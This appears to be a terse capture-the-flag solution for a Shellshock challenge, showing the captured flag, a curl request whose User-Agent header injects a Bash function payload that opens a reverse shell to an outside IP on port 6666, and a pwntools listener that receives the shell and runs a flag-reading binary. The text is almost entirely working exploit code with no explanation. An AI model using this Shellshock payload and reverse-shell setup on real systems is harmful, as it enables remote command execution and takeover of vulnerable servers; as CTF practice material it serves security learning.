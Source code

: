 

# FLAG{W0w U sh0cked m3 by 5h3115h0ck}

url -i 'https://command-executor.eof-ctf.ais3.ntu.st/index.php?func=cmd&cmd=env' -H "User-Agent: () { l:;}; /bin/bash -c bash >&/dev/tcp/60.251.236.17/6666 0>&1 "

```python
#!/usr/bin/env python
from pwn import *

l = listen(port = 6666)
y = l.wait_for_connection()

y.sendline( 'cd /;./flag-reader /flag' )

rnd = y.recv( 16 )
print rnd

y.send( rnd )

y.interactive()
```